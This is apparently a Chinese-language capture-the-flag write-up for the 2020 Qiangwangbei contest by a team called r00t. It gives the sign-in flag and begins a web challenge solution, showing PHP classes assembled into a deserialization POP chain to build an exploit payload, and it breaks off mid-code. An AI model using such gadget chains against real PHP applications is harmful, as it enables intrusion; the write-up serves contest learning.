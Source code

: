 ```yaml
---
sidebar: auto
---
```

# r00t 强网杯 2020

急缺pwn师傅

## 签到

flag{welcome_to_qwb_S4}

## web 辅助

下载源码进行审计，发现是反序列化

先找 POP 链，在 class 中可以构造出完整的链子

```php
<?php
include "common.php";

class player{
    protected $user;
    protected $pass;
    protected $admin;

    public function __construct($user, $pass, $admin = 0){
        $this->user = $user;
        $this->pass = $pass;
        $this->admin = $admin;
    }

    public function get_admin(){
        return $this->admin;
    }
}

class topsolo{
    protected $name;
    public function __construct($name = 'Riven'){
        $this->name = new midsolo(new jungle());
    }

    public function TP(){
        if (gettype($this->name) === "function" or gettype($this->name) === "object"){
            $name = $this->name;
            $name();
        }
    }

    public function __destruct(){
        $this->TP();
    }

}

class midsolo{
    protected $name;

    public function __construct($name){
        $this->name = $name;
```